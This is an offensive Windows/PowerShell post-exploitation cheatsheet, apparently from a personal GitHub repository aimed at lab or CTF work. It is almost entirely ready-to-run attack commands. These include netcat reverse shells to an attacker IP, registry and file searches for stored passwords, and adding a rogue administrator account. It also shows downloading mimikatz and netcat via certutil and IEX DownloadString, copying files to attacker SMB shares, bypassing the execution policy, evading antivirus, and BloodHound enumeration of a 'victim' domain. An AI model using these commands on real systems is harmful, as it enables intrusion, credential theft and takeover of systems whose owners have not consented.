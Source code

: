Windows(Powershell) Cheatsheet
=====================
work in progress

## Usefull information

- https://gist.github.com/babutzc/f68f5414fc8595ca8f80abbe36d7b946
- https://ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
- https://github.com/moatn/cheatsheets/blob/master/windowsstuff.md

## Information gathering

### CMD
```
whoami
echo %username%
systeminfo
hostname
net use
net view
net user
net user <username>
net user <username> /domain
net localgroup
set
findstr /C:"<autoElevate>true" 
schtasks /query /fo LIST /v | findstr "tomcat"
```

### Powershell
```
$ExecutionContext.SessionState.LanguageMode
$Env:Path
Get-volume
hostname
get-process
get-service
Get-NetFirewallRule
Get-Childitem
Get-Content
```

### Networking

```
netstat -ano
route print
```

### cleartext passwords?

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Run as

### Execute commands as a different user
Execute commands as different user when stored credentials are availeble (cmd.exe)
```
runas /user:.\username /savecred 'nc.exe -e cmd.exe 10.10.1.2 1234'
```

Execute commands as different user on powershell.
```
$username = "username"
$password = "password1"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
$Session    = New-PSSession -Credential $Credential
Invoke-Command -Session $Session  -ScriptBlock { nc.exe -e cmd.exe 10.10.1.2  1234 }
```

### Adding users

Quickly add a user to the system. If admin privs are also acquired, add the user to the admin group. 
```
net user username password /add
net localgroup administrators username /add
```

## Downloading Files

### Kali
```
python3 -m http.server 80
```
### CMD
```
certutil -urlcache -split -f "http://10.10.14.24/mimikatz.exe" mim.exe
certutil.exe -urlcache -split -f "http://10.10.14.24/mimikatz.exe" %TMP%\mim.exe
```

### Powershell
```
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc.exe','c:\temp\nc.exe')
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
powershell.exe wget "http://10.10.14.24/nc.exe" -outfile "c:\temp\nc.exe"
IEX (new-object System.Net.WebClient).DownloadString('http://10.10.14.24/shell.ps1')
wget
curl -O http://10.10.14.24/nc.exe
powershell -c -e {base64} 
```

### SMB

Setup SMB share to copy files

#### kali
(Make sure you use the correct path to impacket)
```
python3 tools/impacket/examples/smbserver.py DAAN /tmp/DAAN
```
#### win
```
net view \\10.10.14.24
dir \\10.10.14.24\DAAN

#from attacker
copy \\10.10.14.24\DAAN\nc.exe
#to attacker
copy nc.exe \\10.10.14.24\DAAN\nc.exe
```

### Mounting shares (CMD)
```
net use Y: \\10.10.10.25\C$ /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:FEEST\username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:.\username "password" /PERSISTENT:YES
```

## Powersploit

https://github.com/PowerShellMafia/PowerSploit
Documentation: https://powersploit.readthedocs.io/en/latest/

### PowerUp.ps1
Remove lines 1-9 as some mallware programs seem to flag this script because of these lines.

#### When the script doesn't run
Disable Execution Policy:
```
powershell -ep bypass
```
If a script will not run check for AMSI bypassing

#### Running PowerUp.ps1
```
Import-module PowerUp.ps1
. .\PowerUp.ps1

Invoke-AllChecks
```

## Bloodhound
https://github.com/BloodHoundAD/BloodHound

install on Kali
```
sudo apt-install bloodhound
```
start
```
bloodhound (in terminal)
sudo neo4j console
```
"Bolt enabled on 'ipaddress:port' "

"Remote interface available at: 'ipaddress:port"
Go to address and change the password in bolt (default password is neo4j)

On windows:
download sharphound and upload to victim
https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe

```
.\SharpHound.exe
```
Creates a zip, download it to Kali and drag it into BloodHound

Enum Bloodhound
- Search users you owned and mark them (rightclick "mark as owned")
- Click on the lines (right), querries > 
	- "shortest path from owned principals"
	- "shortest path to domain admins"
	- "dcsync rights"
